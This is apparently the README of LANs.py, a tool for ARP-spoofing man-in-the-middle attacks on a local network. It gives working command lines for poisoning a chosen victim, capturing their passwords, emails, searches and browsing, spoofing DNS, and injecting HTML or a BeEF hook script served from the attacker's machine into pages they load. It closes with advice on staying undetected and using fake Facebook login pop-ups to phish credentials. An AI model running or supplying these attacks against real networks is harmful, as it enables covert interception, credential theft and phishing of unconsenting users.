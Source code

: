 LANs.py
========

Multithreaded asynchronous packet parsing/injecting arp spoofer.

Individually arpspoofs the target box, router and DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings, aircrack-ng, python twisted, BeEF (optional), and a wireless card capable of promiscuous mode if you don't use the -ip option

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.



Simplest usage:

```
python LANs.py
```

Because there's no -ip option this will arp scan the network, compare it to a live running promiscuous capture, and list all the clients on the nextwork including their Windows netbios names along with how many data packets they're sending. so you can immediately target the active ones. The ability to capture data packets they send is very dependant on physical proximity and the power of your network card. then you can Ctrl-C and pick your target which it will then ARP spoof. Simple target identification and ARP spoofing. 

Passive harvesting usage:

```
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-ip: target this IP address 

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


HTML injection:

```
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits.   


```
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first <head> and failing that injects prior to the first </head>. This example will change the page title to 'Owned.'


Read from pcap:

```
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script. 


Aggressive usage:
```
python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```

All options:

```
python LANs.py -h
```

-b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js

-c 'HTML CODE': inject arbitrary html code into pages the victim vists; include the quotes when selecting HTML to inject

-d: open an xterm with driftnet to see all images they view

-dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0

-ip: target this IP address 

-n: performs a quick nmap scan of the target

-na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-pcap PCAP_FILE: parse through all the packets in a pcap file; requires the -ip [target's IP address] argument

-v: show verbose URLs which do not truncate at 150 characters like -u




Cleans the following on Ctrl-C:

--Turn off IP forwarding

--Flush iptables firewall

--Individually restore each machine's ARP table



Technical details:

This script uses a python nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.

Injecting code undetected is a dicey game, if a minor thing goes wrong or the server the victim is requesting data from performs things in unique or rare way then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just wait for them to browse a few other pages. The goal is to be unnoticeable. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.

